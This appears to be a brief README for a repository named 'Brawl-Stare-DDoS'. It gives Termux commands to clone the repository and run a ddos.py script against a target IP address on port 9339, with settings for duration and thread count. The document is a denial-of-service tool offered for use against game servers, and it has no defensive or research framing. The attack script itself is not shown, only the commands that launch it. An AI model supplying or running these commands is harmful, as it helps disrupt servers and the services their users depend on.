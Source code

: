 # Brawl-Stare-DDoS
#Run this command in Termux

git clone https://github.com/turkhack3131/Brawl-Stare-DDoS.git

cd Brawl-Stare-DDoS

ls

python ddos.py --ip <target_ip> --port 9339 --duration 30 --threads 5
